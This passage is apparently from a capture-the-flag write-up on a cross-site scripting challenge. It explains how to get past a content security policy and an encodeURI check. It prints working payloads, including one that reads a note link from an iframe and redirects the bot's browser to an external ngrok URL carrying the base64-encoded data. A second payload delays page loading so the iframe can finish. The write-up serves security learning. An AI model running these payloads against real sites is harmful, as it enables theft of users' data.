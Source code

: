 We are successfully able to execute an alert for the bot. BUT this is where things get very tricky. Remember the code for `*` it has this line as well:

```
return res.send("404 - " + encodeURI(req.path));
```

Not only should your code bypass CSP, but it should also pass this `encodeURI` check. I tried a lot trying to come up with a bypass, but it didn't work.

![](https://i.imgur.com/WmvPyDY.png)


After brainstorming for a while, I thought of using the HTML tags to somehow read the `noteID`.

> Enter the payload

```javascript!
<iframe id="notesframe" src="http://127.0.0.1/notes"></iframe>
<script src="http://127.0.0.1/somethingxyz/,console.log(document.getElementById('notesframe').contentWindow.document.body.innerHTML);" defer></script>
<script src="http://127.0.0.1/somethingxyz/,console.log(1);a=btoa(encodeURIComponent(document.getElementById('notesframe').contentWindow.document.body.querySelector('a').outerHTML));window.location.href='https://825f-2601-197-380-43a0-99e5-8a79-29c7-8ddf.ngrok-free.app/'+a;" defer></script>
```

> In short, the payload retrieves the text content of an anchor tag from an iframe, encodes it, and sends it to the attacker's server by redirecting the browser to the attacker's URL with the encoded data appended. However, the script above won't work right because the `iframe` won't load in time.

![](https://i.imgur.com/5K5xulX.png)


We need to somehow delay the loading of the page for the `iframe` to load. I achived this by loading the `purify.js` and `stylesheets` mutiple times.

```javascript!
<iframe id="notesframe" src="http://127.0.0.1/notes"></iframe>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<script src="http://127.0.0.1/challenge/purify.js"></script>
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
<link href="/challenge/style.css" rel="stylesheet">
<link href="/public/bootstrap.min.css" rel="stylesheet">
```